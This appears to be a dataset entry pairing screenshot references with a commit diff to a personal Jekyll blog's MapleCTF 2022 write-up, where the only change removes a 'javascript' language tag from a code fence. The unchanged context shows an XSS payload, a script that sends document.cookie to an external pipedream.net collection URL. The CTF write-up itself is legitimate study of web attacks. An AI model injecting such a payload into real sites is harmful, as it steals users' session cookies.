

Before and after one commit to andrebhu/andrebhu.github.io, a Jekyll site: the page built from _posts/2022-08-30-maplectf-2022.md, in a window 1280 px wide and 900 px high, scrolled down 2369 px. Shown: the whole window, without its empty margins (258-1021 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix highlighting bug

````diff
--- a/_posts/2022-08-30-maplectf-2022.md
+++ b/_posts/2022-08-30-maplectf-2022.md
@@ -125,7 +125,7 @@ From those pieces of code, we have the following steps:
 
 Using this basic payload that redirects an user to a different location while exfiltrating the cookie:
 
-```javascript
+```
 <script>
     document.location="https://en8pldcq5oe2x.x.pipedream.net/flag?cookie="%2bdocument.cookie;
 </script>
````
